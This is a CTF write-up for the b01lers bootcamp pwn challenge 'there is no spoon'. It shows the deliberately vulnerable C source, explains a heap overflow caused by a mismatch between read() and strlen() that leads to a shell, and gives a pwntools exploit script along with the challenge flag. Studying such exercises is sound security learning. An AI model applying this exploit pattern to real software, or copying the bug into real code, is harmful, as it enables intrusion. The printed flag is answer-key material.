

## b01lers bootcamp: there is no spoon [pwn]


#### We are given a binary and it's source code making it easier to analyze. The vulnerability was tricky here (i dunno for others but for me it was), it relies on the reassignment of the len value. On the first read, len gets assigned to how many bytes the read function has, well, read. Next is with the allocation for buffer2, the size depends on the strlen of the first user-input provided buffer. 

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>

char * xor(char * src, char * dest, int len) {
    for(int i = 0; i < len - 1; i++) {
        dest[i] = src[i] ^ dest[i];
    }
    dest[len-1] = 0;
    return dest;
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[256];
    int len = 256;

    printf("Neo, enter your matrix: ");
    len = read(0, buffer, len);

    char * buffer2 = malloc(strlen(buffer));

    int * changeme = malloc(sizeof(int));
    *changeme = 255;
    printf("Reality: %d\n", *changeme);
    
    printf("Make your choice: ");
    len = read(0, buffer2, len);

    printf("Now bend reality. Remember: there is no spoon.\n");
    char * result = xor(buffer2, buffer, len);
    printf("Result: %s\n", result);
    printf("Reality: %d\n", *changeme);

    if (*changeme != 0xff) {
        system("/bin/sh");
    }
}

```

#### Since read continues to read input even if it encounters nullbytes and sets the len value to how many bytes were read, we can trigger an overflow on the heap simply by null terminating our first input and appending more values to it. The len will then be set to how many bytes our input is, but strlen() will only read until it encounters a null byte. In the next prompt for input (`read(0, buffer2, len)`), we can input more bytes than the size the buffer was allocated with and are able to overwrite stuff on the heap (which includes the changeme value)

```python
from pwn import *

#: p = process('./thereisnospoon')
script = '''
break *main + 125
break *main + 151
break *main + 173
break *main + 244
break *main + 368
'''
#: gdb.attach(p.pid, gdbscript=script)
p = remote('chal.ctf.b01lers.com', 1006)
print(p.recv())

p.sendline(cyclic(100) + '\x00' * 155)
print(p.recvuntil('choice: '))
p.sendline('A' * 256)
p.interactive()

#: flag{l0tz_0f_confUsi0n_vulnz}
```